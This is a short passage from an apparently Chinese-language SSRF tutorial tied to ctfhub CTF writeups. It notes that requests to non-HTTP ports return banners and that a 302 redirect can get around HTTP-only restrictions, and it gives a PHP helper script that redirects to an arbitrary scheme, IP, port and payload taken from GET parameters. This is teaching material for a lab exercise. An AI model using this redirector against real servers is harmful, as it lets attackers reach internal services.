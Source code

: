```php
    fclose($fp);
    echo $result;
}
?>
```
请求非 HTTP 的端口可以返回 banner 信息。
或可利用 302 跳转绕过 HTTP 协议的限制。
辅助脚本

```php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
```

##  参考文献：

https://xz.aliyun.com/t/6373#toc-8
###  ctfhub wp
https://blog.csdn.net/rfrder/category_10388286.html
https://www.freebuf.com/articles/web/265646.html